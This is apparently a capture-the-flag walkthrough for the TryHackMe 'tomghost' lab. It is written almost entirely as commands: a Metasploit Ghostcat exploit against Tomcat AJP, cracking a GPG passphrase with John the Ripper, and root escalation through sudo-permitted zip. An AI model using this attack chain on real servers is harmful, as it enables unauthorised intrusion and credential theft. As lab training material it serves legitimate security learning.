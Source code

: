 # tomghost

- Compromise this machine and obtain user.txt

	- `sudo nmap -sV -sS <TARGET_IP>`
	- `searchsploit tomcat ghost`
	- `msfconsole`
	- `search tomcat ghost`
	- `use 0`
	- `set RHOST <TARGET_IP>`
	- `set RPORT 8009`
	- `run`
	- You have obtained user:pass.
	- `ssh <REPLACE_USER>@<TARGET_IP>` and enter the password.
	- `cd ..`
	- `ls`
	- `cd merlin`
	- `ls`
	- `cat user.txt`
	- `THM{********************}`

- Escalate privileges and obtain root.txt

	- `gpg --import tryhackme.asc`
	- `gpg --decrypt credential.pgp`
	- We need a passphrase...
	- `gpg2john tryhackme.asc > hash`
	- `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
	- Passphrase: `*********`
	- Decrypt the credential file and enter in the system as merlin user.
	- `sudo -l`
	- Merlin can run `/usr/bin/zip` without password...
	- https://gtfobins.github.io/gtfobins/zip/#sudo
	- Execute those commands and then `cat /root/root.txt`
	- `THM{***********}`



